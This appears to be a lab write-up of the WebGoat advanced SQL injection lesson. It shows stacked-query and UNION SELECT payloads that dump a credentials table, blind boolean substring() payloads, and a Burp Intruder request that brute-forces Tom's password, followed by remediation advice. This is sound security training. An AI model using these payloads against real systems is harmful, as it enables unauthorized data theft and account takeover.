# SQL Injection (advanced) — WebGoat Lesson: A3 Injection

**Category:** A3 — Injection
**Difficulty:** Hard

## Objective

This lesson builds on the intro lesson with two harder, realistic exercises: (1) pulling data out of a completely different table than the one the vulnerable query was designed to touch, using both a `UNION`-based and a stacked-query approach, and (2) a full blind boolean-based SQL injection attack against a registration form to log in as another user (`Tom`) without ever knowing his real password.

## Vulnerability

Same root cause as the intro lesson — unsanitized, directly concatenated user input in SQL queries — but applied here against two different real-world attack primitives:
1. **Cross-table data exfiltration** via `UNION SELECT` and stacked (chained) queries.
2. **Blind boolean-based injection**, where the application gives no direct data back, only a binary signal (a registration success/failure message), which can still be used to extract arbitrary data one bit/character at a time.

## Part 1 — Pulling Data From Other Tables

**Task 6.** The input field queries a `user_data` table by last name. The goal: retrieve all records from a *different* table, `user_system_data`, and find Dave's password. The lesson explicitly hints there are two solutions — a stacked query, and a `UNION`.

```sql
CREATE TABLE user_data (userid int not null,
                         first_name varchar(20),
                         last_name varchar(20),
                         cc_number varchar(30),
                         cc_type varchar(10),
                         cookie varchar(20),
                         login_count int);

CREATE TABLE user_system_data (userid int not null primary key,
                                user_name varchar(12),
                                password varchar(10),
                                cookie varchar(30));
```



**Attempt 1 — naive double query (failed).** First tried simply concatenating a second `SELECT` directly without a statement separator:

```
Name: "SELECT * FROM user_data
```

This failed with a syntax error (`unexpected token: ;`), confirming the field is injectable but that a raw second statement without proper chaining syntax doesn't work:



**Solution A — Stacked query (chaining with `;`).** Used the `;` statement separator to terminate the original query and append a brand-new `SELECT` against the target table, commenting out any trailing syntax with `--`:

**Payload:** `'; SELECT * FROM user_system_data ;--`

**Query running on the backend:**
```sql
SELECT * FROM user_data WHERE last_name = ''; SELECT * FROM user_system_data ;--'
```

This returned the full contents of `user_system_data`, revealing **Dave's password: `passW0rD`**:



Submitted the password to the "Check Password" field to confirm:


**Solution B — UNION-based injection.** As the lesson suggested, also solved it using `UNION SELECT`. Since `user_data` has 7 columns and `user_system_data` has 4, the `UNION` requires matching column counts — padded the extra 3 columns with `NULL`:

**Payload:** `Smith' UNION SELECT userid, user_name, password, cookie, null as f1, null as f2, null as f3 FROM user_system_data;--`

**Query running on the backend:**
```sql
SELECT * FROM user_data WHERE last_name = 'Smith' UNION SELECT userid, user_name, password, cookie, null as f1, null as f2, null as f3 FROM user_system_data;--
```

This returned the original `user_data` rows for "Smith" *plus* every row from `user_system_data` appended via the `UNION`, again surfacing Dave's password:



Confirmed the same password via the password-check field:



## Part 2 — Blind Boolean-Based Injection to Log In as Tom

**Goal:** log in as the user `Tom` without knowing his real password.



**Step 1 — Confirm the field is injectable and blind.** The registration form's username field doesn't return data directly, but its response *does* change depending on whether a backend condition is true or false — a classic blind-injection oracle.

Registered with a condition that evaluates to **false**:

**Payload:** `tom' AND '1' = '2`

Result: **"User ... created"** (registration succeeded, meaning no real conflict was detected — the injected condition was false, so the backend's underlying comparison against the real `tom` account never matched):



Registered with a condition that evaluates to **true**:

**Payload:** `tom' AND '1' = '1`

Result: **"User ... already exists"** — the true condition caused the injected check to match the real `tom` row, triggering the duplicate-username error:



This gave a reliable oracle: **"already exists" = TRUE**, **"created" = FALSE**.

**Step 2 — Extract the password character by character.** Used SQL's `substring()` function to test one character of Tom's password at a time:

**Payload pattern:** `tom' AND substring(password,N,1) = 'c`

Tested position 1 against `'a'` → **"created"** (false, not `a`):



Tested position 1 against `'z'` → **"created"** (false, not `z`):



Tested position 1 against `'t'` → **"already exists"** (true! character 1 is `t`):



**Step 3 — Automate the extraction with Burp Intruder.** Manually testing every position against all 26 letters would take hundreds of requests — automated it with a **Cluster bomb attack** across two payload positions on the registration request:

```http
PUT /WebGoat/SqlInjectionAdvanced/register HTTP/1.1
...
username_reg=tom'+AND+substring(password,§1§,1)+%3D+'§pass_char§&email_reg=tom%40tom&password_reg=tom2&confirm_password_reg=tom2
```

- **Position 1** (character index): Numbers payload, sequential `1` to `24`, step `1` — covering every plausible password length.
- **Position 2** (`pass_char`): Brute forcer payload, character set `abcdefghijklmnopqrstuvwxyz`, length 1 — every lowercase letter.




This generated 24 × 26 = 624 requests, one for every (position, letter) combination. Filtered the results by response length — the "already exists" (true) responses are longer (~448 bytes) than the "created" (false) responses (~427–428 bytes), making true hits easy to spot:

- Index **1** → `t` (length 448, "already exists")
- Index **9** → `e` (length 448, "already exists")
- Index **10** → `c` (length 449, "already exists")





Repeating this for every index from 1 through the string's full length reconstructed the complete password character by character: **`thisisasecretfortomonly`**.

**Step 4 — Log in as Tom.** Used the recovered password to log in directly as `tom`:



## Why It Worked

- **Lack of parameterized queries (again)**: the same root cause as every other injection lesson — raw string concatenation of user input into SQL statements.
- **UNION compatible schema exposure**: once an attacker can control the number and types of columns returned (padding with `NULL` as needed), a `UNION SELECT` can append the results of an entirely unrelated query to the original result set.
- **Stacked queries enabled**: the database/driver allowed multiple `;`-separated statements in a single request, letting an attacker run an arbitrary second query (or in the intro lesson, an `UPDATE`/`DROP`) completely unrelated to the original.
- **Blind injection still leaks information via behavioral differences**: even with zero data returned directly, a binary response difference (success vs. failure message) is enough to exfiltrate arbitrary data one bit at a time using boolean conditions like `substring() = 'x'`.
- **No rate-limiting on registration attempts**: 624 rapid-fire registration requests via Burp Intruder completed without any lockout, throttling, or CAPTCHA, making brute-force character extraction fast and easy.

## Remediation

- Use parameterized queries / prepared statements everywhere — this defeats `UNION`-based, stacked-query, and blind boolean injection alike, since user input can never alter query structure.
- Disable support for multiple statements per database call at the driver/connection level wherever the application has no legitimate need for it.
- Apply the principle of least privilege to the database account used by the application — it should not be able to read tables (`user_system_data`) that a given feature has no business touching.
- Rate-limit and monitor authentication-adjacent endpoints (login, registration, password reset) for unusually high volumes of near-identical requests, which is the typical signature of an automated blind-injection extraction attack.
- Ensure error and success messages don't leak distinguishable signals tied to internal query logic — a uniform, generic response regardless of the underlying condition removes the oracle blind injection depends on.

## References

- [OWASP Top 10 2021 – A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)
- [PortSwigger: Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)
